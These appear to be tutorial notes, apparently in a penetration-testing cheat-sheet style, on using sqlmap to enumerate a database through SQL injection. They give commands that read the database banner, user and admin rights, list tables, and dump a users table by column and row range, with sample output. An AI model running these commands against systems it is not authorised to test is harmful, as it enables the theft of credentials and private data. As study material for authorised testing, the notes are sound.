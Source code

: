 # Database Enumeration

## **Basic DB Data Enumeration**

```
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

--baner        :  Database version banner
--current-user :  Current user name 
--current-db   :  Current database name 
--is-dba       :  Checking if the current user has DBA (administrator) rights 

```

## **Table Enumeration**

```
sqlmap -u "http://www.example.com/?id=1" --tables -D <DBName> 

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

### Dumping a Table

```
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

**Note:** Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

## **Table/Row Enumeration**

```
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

### start and stop

Specify the rows with the `--start` and `--stop` options 

```
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```
